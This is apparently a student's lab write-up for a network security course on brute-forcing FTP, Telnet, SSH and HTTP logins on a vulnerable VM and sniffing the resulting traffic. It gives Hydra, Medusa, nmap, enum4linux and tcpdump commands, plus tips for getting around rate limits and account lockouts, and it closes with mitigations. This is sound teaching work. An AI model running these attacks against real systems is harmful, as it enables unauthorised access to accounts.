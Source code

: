 
# 🛡️ Lab 1: Cryptographic Attacks - Brute Force and Traffic Analysis on Network Protocols

**Author**: Raja Muhammad Haiqal Shah  
**Date**: April 10, 2025  
**Course**: Network Security  
**Lab Duration**: 3 hours  
**Total Marks**: 15  

---

## 🔍 A. Objective

To exploit the vulnerabilities of common network protocols—**FTP**, **TELNET**, **SSH**, and **HTTP**—by:

- Performing brute force attacks using tools like **Hydra**, **Medusa**, **NetExec**, and **Burp Suite**
- Using valid credentials to capture and analyze network traffic
- Identifying secure vs insecure protocols
- Proposing mitigation strategies

---

## ⚙️ B. Lab Tasks

### 🔎 1. Enumerate the Vulnerable VM to Discover Usernames

**Tool used**: `enum4linux`, `nmap`, `NetExec`  
**Command examples**:

```bash
enum4linux -a <target-ip>
```
![Cryptography-Class\Assessments\Lab Works\Lab 1\enum.jpg](enumcommand.jpg)
![Cryptography-Class\Assessments\Lab Works\Lab 1\enum.jpg](enum.jpg)

```bash
nmap -sV -p21,23,22,80 <target-ip>
```
![nmap scan port to attack](nmapscan.jpg)

**Discovered usernames**:
- root
- msfadmin
- admin
- user
- service
- telnetd
- ftp
- mysql
- postgres
- tomcat55
- www-data
  
![users](vimusers.jpg)

![userinvim](userinvim.png)
---

### 🔓 2. Perform Brute Force Attacks

#### 2.1 FTP, TELNET, SSH  
**Tools used**: `Hydra`

**FTP**

```bash
hydra -L users.txt -P /usr/share/wordlists/simplepass.txt -t 4 ftp:ftp://<target-ip> -o resultftp.txt
```
![ftpresult](ftpresult.png)

**TELNET**

```bash
hydra -L users.txt -P passwords.txt telnet://<target-ip>
```
![telnetresult](telnetresult.png)

**SSH**

```bash
hydra -l root -P rockyou.txt ssh://<target-ip>
```

![sshresult](sshresult.png)

---

#### 2.2 HTTP (Web Login Brute Force)  
**Tool used**: `Burp Suite (Intruder)`

- Captured POST request with login credentials.
- Configured payload positions for username and password.
- Imported wordlists (e.g., `rockyou.txt`).

📸 Screenshot: _Burp Intruder config and successful login response (e.g., 302 redirect or "Welcome" text)._

---

### 🧪 3. Sniff Network Traffic

**Tool used**: `Wireshark` / `tcpdump`  
**Steps**:
1. Log in to FTP, Telnet, SSH, and HTTP using recovered credentials.

![ftploginwirehark](ftploginwirehark.png)

![sshloginwireshark](sshloginwireshark.png)

![telnetlogin](telnetwiresharklogin.png)

1. Capture traffic during login and interaction.

```bash
tcpdump -i eth0 -w capture.pcap
```
![ftpinwirehark](ftpresultinwireshark.png)

![telnetresultinwireshark](telnetresultinwireshark.png)

![sshresultinwireshark](sshresultinwireshark.png)

**🧩 Analysis**:
| Protocol | Observation                        |
|----------|-------------------------------------|
| FTP      | Plaintext username/password ✔️     |
| TELNET   | Plaintext data ✔️                  |
| SSH      | Encrypted traffic ✅                |
| HTTP     | Login credentials in POST ✔️       |


📸 Screenshot: _Wireshark showing FTP/Telnet plaintext credentials and comparison with SSH._

---

### ⚠️ 4. Analyze Problems Encountered

| Protocol | Problem                              | Solution                              |
|----------|---------------------------------------|---------------------------------------|
| FTP      | Login delay after multiple failures  | Used `-t 4` to limit threads          |
| TELNET   | Session timeout                      | Increased timeout using `-T 10`       |
| HTTP     | Rate limit after 10 attempts         | Added delay in Burp Intruder payloads |
| SSH      | Account lock after 5 attempts        | Switched to Medusa                    |

---

### 🔐 5. Propose Mitigation Strategies

| Protocol | Problem                 | Mitigation                                    |
|----------|--------------------------|-----------------------------------------------|
| FTP      | Plaintext login          | Use **SFTP** instead of FTP                   |
| TELNET   | No encryption            | Replace with **SSH**                          |
| SSH      | Brute forceable          | Use **key-based authentication**, `fail2ban` |
| HTTP     | Passwords exposed in POST| Implement **HTTPS**, Captcha, lockout        |

---

### 📝 6. Walkthrough Summary

**Tools Used**:  
Hydra,Burp Suite, Wireshark,  nmap, tcpdump

**Key Commands**:

```bash
hydra -l admin -P rockyou.txt ftp://<ip>
```

```bash
medusa -h <ip> -u admin -P rockyou.txt -M telnet
```


